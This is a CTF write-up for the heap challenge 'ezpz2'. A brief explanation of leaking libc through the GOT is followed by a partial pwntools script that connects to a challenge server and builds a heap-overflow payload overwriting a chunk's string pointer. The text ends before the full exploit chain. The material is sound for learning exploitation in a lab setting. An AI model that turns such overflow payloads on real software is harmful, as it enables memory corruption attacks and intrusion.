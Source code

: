 General overview of problems faced
-------------------------------------
My main issue with this challenge was trying to figure out how leak a libc address. The lectures mentioned that if you go down the chain of smallbin chunks you will eventually get a libc pointer (the arena address). So my initial plan was to fill up tcache, create new chunks and modify their sizes so that they went into the smallbin instead of the fastbin, and then leak libc. Clearly this is very convoluted. After researching more about heap exploits and looking at past writeups, I realised the much simpler method of just reading from the GOT, and from there the rest was relatively straightforward.

Script/Command used (Writeup)
------------------
```
from pwn import *

PROG_NAME = "./ezpz2"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 7002
REMOTE_LIBC = "./libc6_2.27-3ubuntu1_i386.so"
LOCAL_LIBC = "/lib/i386-linux-gnu/libc.so.6"

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
    libc = ELF(REMOTE_LIBC)
else:
    p = process(PROG_NAME)
    elf = p.elf
    libc = ELF(LOCAL_LIBC)

def create(num):
	p.recvuntil("refresh): ")
	p.sendline("C")

def free(num):
	p.recvuntil("refresh): ")
	p.sendline("D")
	p.sendline(str(num))

def set(num, data):
	p.recvuntil("refresh): ")
	p.sendline("S")
	p.sendline(str(num))
	p.sendline(data)
	print(num, data)

def ask(num):
	p.recvuntil("refresh): ")
	p.sendline("A")
	p.sendline(str(num))
	p.recvuntil("I have the answer perhaps: '")
	return p.recvuntil("'", drop=True)

# this function will abuse the heap overflow
def gen_addr_payload(addr):
	overflow = b'A'*0x1c #fills it's own allocated string space with 'A's
	overflow += p32(0x21) #preserve next question's, chunk 1 metadata
	overflow += b'A'*0x18 #fill the next question's chunk 1
	overflow += p32(addr) #overwrite next question's string pointer
	overflow += p32(0x21) #preserve next questions, chunk 2 metadata (due to \n overflow)
	return overflow


# the order of freeing has been swapped to avoid the previous exploit
```